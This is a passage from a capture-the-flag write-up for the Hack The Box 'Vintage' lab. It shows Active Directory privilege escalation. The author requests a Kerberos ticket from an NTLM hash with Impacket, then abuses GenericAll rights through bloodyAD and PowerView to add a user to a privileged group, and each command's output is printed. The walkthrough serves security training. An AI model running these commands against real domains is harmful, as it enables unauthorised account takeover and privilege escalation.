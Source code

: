 we have GenericAll for some users lets do this!!!

## Add-Member

### bloodyAD

lets grab ccache first and export it.

```bash
➜  Vintage getTGT.py -hashes aad3b435b51404eeaad3b435b51404ee:b3a15bbdfb1c53238d4b50ea2c4d1178 'vintage.htb/GMSA01$'

Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in GMSA01$.ccache
➜  Vintage export KRB5CCNAME=GMSA01\$.ccache          
➜  Vintage klist
Ticket cache: FILE:GMSA01$.ccache
Default principal: GMSA01$@VINTAGE.HTB

Valid starting       Expires              Service principal
04/24/2025 16:54:53  04/25/2025 02:54:53  krbtgt/VINTAGE.HTB@VINTAGE.HTB
        renew until 04/25/2025 16:54:52

```

Lets use bloodyAD. im gonna add P.Rosa cause we have already his pass

```bash
➜  Vintage bloodyAD --host dc01.vintage.htb -d vintage.htb --dc-ip 10.10.11.45 -k add groupMember "SERVICEMANAGERS" "P.Rosa"
[+] P.Rosa added to SERVICEMANAGERS
```

Lets add with PowerView 😀

### PowerView

```bash
➜  Vintage powerview vintage.htb/'GMSA01$'@DC01.vintage.htb --dc-ip 10.10.11.45 -k --no-pass 
Logging directory is set to /root/.powerview/logs/vintage-gmsa01$-dc01.vintage.htb
[2025-04-24 17:13:40] [Storage] Using cache directory: /root/.powerview/storage/ldap_cache
(LDAP)-[dc01.vintage.htb]-[VINTAGE\gMSA01$]
PV > Add-DomainGroupMember -Identity SERVICEMANAGERS -Members p.rosa
[2025-04-24 17:13:42] User p.rosa successfully added to SERVICEMANAGERS

```

noice! now we are member of SERVICEMANAGERS Lets see what we can do.
